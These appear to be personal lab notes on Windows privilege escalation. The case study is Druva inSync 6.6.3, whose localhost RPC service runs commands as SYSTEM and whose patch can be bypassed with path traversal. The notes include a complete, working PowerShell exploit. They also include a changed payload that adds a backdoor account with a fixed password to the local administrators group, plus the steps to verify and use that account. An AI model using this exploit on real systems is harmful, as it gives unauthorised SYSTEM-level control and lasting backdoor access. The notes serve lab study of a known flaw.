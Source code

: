 Installed software can offer privilege escalation paths, especially if outdated because organisations and users may not update them as often as they update the operating system.

**List Installed Software, Versions, and Vendors**
```
wmic product get name,version,vendor
```

### Case Study: Druva inSync 6.6.3
Druva inSync has a privilege escalation vulnerability due to its `RPC (Remote Procedure Call)` server running on port 6064 with SYSTEM privileges, accessible only from localhost. It exposes procedure 5, ***allowing any command execution***.

A patch was issued, where they restricted commands to `C:\ProgramData\Druva\inSync4\`, but you could simply ask the server to run `C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe` bypassing it via ***path traversal***.

[[Pasted image 20250325000147.png]]
- first packet is simply a ***hello packet*** that contains a fixed string. 
- second packet indicates that we want to execute procedure number 5, as this is the vulnerable procedure that will execute any command.
- last two packets are used to send the length of the command and the command string to be executed.

**Original Exploit Code**
```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```
You can open a PowerShell console and paste the exploit directly to execute it.

Note: The exploit's default payload, specified in the `$cmd` variable, will create a user named `pwnd` in the system, but won't assign it administrative privileges. So, I changed it to below:
```powershell
net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add
```

**If the exploit was successful, the user `pwnd' should exists**
```
net user pwnd
```

**Run the cmd prompt as an administrator and when prompted for password use the `pwnd` account creds.**
